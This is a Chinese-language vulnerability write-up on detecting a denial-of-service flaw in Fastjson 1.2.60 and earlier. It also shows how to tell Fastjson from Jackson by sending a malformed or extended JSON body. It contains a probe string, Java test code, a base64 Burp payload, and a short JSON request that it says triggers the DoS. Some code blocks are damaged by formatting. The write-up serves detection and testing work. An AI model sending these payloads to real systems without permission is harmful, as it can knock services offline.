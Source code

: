 ```yaml
---
title: Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分
id: zhfly2933
---
```


# Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.60 以下版本

## 三、复现过程

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![image](../img/22ca12e3284473674b57066a29798343.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。
由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{"name":"S", "age":21}

追加一个随机 key ,修改 json 为

{"name":"S", "age":21,"agsbdkjada__ss_d":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key,
所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![image](../img/faa1b883e6fdbe6865b095a7fe3fb88d.png)

Jackson：

![image](../img/737d4cfe8da85d7776c2f0d233344270.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a ,
在1.2.60 进行了修复, 对 \x 后面的字符进行是否为16进制允许字符 (0-9a-fA-F) 的校验,
所以这里就可以手动 padding ,构造一个特殊的字符串

\x\u001a\u001a

测试代码:

Main.java

```
import com.alibaba.fastjson.JSON; `public class Main {

public static void main(String[] args) {

String payload = “{“a”:”\x\u001a\u001a"}";

System.out.println(payload);

Object o = JSON.parseObject(payload);

System.out.println(o.getClass());

}

}` 
```

Fastjson < 1.2.60

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.59</version>

</dependency>

</dependencies> `</project>` 
```

![image](../img/2f70d63f4e0564ee74394369b057ee7b.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.60</version>

</dependency>

</dependencies> `</project>` 
```

![image](../img/905f31059288f69865d412e75b81a56f.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![image](../img/6d74e83ca0db2315aeac5e8078537084.png)

使用 {"a:"\x 进行请求就会发生 DOS

![image](../img/f75e236265da98d5633b8b4fb655b38c.png)

## 四、参考链接

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/
